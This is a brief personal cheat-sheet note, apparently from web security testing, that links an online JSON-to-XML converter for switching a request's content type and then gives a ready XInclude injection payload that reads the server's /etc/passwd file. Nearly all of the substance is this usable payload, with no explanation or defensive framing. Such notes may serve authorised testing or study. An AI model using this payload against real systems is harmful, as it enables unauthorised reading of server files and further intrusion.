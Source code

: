 use this to convert json to xml when mucking around with content type:
https://www.freeformatter.com/json-to-xml-converter.html
_REMEMBER to get rid of `<root></root>` as required_

Xinjection: <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
